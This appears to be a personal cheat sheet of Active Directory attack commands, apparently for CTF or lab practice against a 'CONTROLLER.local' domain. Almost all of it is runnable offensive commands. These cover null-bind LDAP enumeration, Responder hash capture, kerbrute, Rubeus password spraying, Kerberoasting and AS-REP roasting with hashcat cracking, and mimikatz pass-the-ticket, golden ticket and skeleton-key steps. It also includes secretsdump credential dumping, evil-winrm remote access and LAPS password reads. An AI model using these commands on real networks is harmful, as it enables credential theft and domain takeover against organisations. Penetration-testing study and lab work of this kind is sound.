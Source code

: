 # Top Keys #
  1. Make sure you have added the domain to your /etc/hosts file
  2. You can search the hash using hashcat https://hashcat.net/wiki/doku.php?id=example_hashes 
  3. grep -i (ignore case helpful when searching output for password or hashes)


# LDAP #
1. Basic Search
  *a. ldapsearch -h $ip -p 389 -x -s base
2. Null creds to try and get list of usernames
  a. ldapsearch -x -h $ip -D '' -w '' -b "DC=controller,DC=local"
  b. Can clean up output with grep also search for passwords! Remember grep case sensistive grep -i (ignore case)

# Responder #
1. Start up responder
  a. sudo responder -I tun0
  b. Call request either smb or website (download a file from your python server)
  c. Capture the NTLM hash you get

# Kerberute #
  1. Enumerate Users from Kali
     a ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
 
 # Rubeus #
  1. Harvest ticket caches
    a Rubeus.exe harvest /interval:30
  2. Brute force Password1 against all users
    a Rubeus.exe brute /password:Password1 /noticket
  3. Kerberoast -dump hashes of any kerberoastable users
    a Rubeus.exe kerberoast
    b Copy hash to hash.txr watch out for spaces
    c hashcat -m 13100 -a 0 hash.txt rockyou.txt
    
    
# ASREP Roasting # 
  1. Rubeus 
    a. rubeus.exe asreproast
    b Get all accounts that do not require pre authentication
    c Insert 23$ after $krb5asrep$ so for proper hash formating
    d hashcat -m 18200 hash.txt rockyou.txt
  2. Impacket GetNPUsers.py
    a. sudo python3 /opt/impacket/GetNPUsers.py CONTROLLER.local/ -usersfile users.txt -format hashcat
    b.  hashcat -m 18200 hash.txt rockyou.txt
 
 # mimikatz #
 1. ALWAYS RUN AS ADMIN
 2. Pass the Ticket
    a privilege::debug
    b sekurlsa::tickets /export (this will export all the tickets into your current directory)
    c Choose a ticket with admin (or user you want)
    d kerberos::ptt <ticket file name>
    e exit mimi
    f klist (show that you have now changed)
 3. Gold and Silver Tickets
    a run as admin
    b privilege::debug
    c lsadump::lsa /inject /name:krbtgt (this will dump the hash and security identifier krbtgt can be changed to other account names like sqlservice  or bob)
    d Gold ticket -> 			i. Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
 4. Mimikatz skeleton
		a. run as admin
		b. privilege::debug
		c. misc::skeleton
		d. Exit and you can read shares with default creds mimikatz
			The default credentials will be: "mimikatz"			
			example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password			
      example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1![image](https://user-images.githubusercontent.com/6464797/152891832-b09edb4c-c062-4219-a5d3-fa8262a52d4d.png)

# Secrets Dump #
1. Impacket Secrets Dump if you have creds of admin or backup account
  a. sudo python3 /opt/impacket/examples/secretsdump.py controller.local/admin:password@controller.local
  b. You will get the NTLM hashes 
  
 #Remote In #
  1. evil-winrm -i $ip -u user -p password
  
 # Priv Esc #
 1. If LAPS is in program files
    a. ldapsearch -x -h $ip -D user@controller.local -w password -b "DC=controller,DC=local"  "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    b. Powershell schedule task to run rev shell with admin priv?

  #Lateral Movements #

 

